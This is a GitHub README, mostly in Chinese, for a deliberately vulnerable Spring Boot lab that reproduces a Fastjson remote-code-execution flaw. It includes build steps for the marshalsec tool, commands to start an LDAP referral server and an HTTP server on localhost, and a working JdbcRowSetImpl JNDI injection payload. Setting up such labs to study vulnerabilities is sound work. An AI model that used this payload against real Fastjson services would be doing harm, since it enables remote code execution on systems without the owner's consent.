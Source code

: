 # fastjson-rce
![](https://img.shields.io/badge/language-java-yellow)
![](https://img.shields.io/github/stars/dbgee/fastjson-rce)
![](https://img.shields.io/github/workflow/status/dbgee/fastjson-rce/Maven%20Package)

fastjson rce env based on springboot

## 环境说明
* Exploit.java  编译好的class 文件文件和利用工具在Exploit 目录下

* 利用工具也可以自行下载编译
  ```shell script
    git clone https://github.com/mbechler/marshalsec.git [克隆项目到本地]
    mvn clean package -DskipTests  [这条命令执行完之后会在target 目录生成我们需要的可执行文件：marshalsec-0.0.3-SNAPSHOT-all.jar]
  ```

## 使用步骤
1. java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#Exploit 10086 
2. python -m http.server 8081
3. 发送利用payload：{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "ldap://127.0.0.1:10086/Object","autoCommit": true}

## update info
1. 通过H2 数据库，对数据做了持久化处理，可以保存提交的数据到服务端
2. 增加了前端页面，可以通过按钮添加、删除、查询三国数据

## TODO
- [ ] 分析漏洞源码
- [ ] 分析补丁情况

## 参考文章
* https://mp.weixin.qq.com/s/TmltzIJmGqYJZ4q4Rm0V-g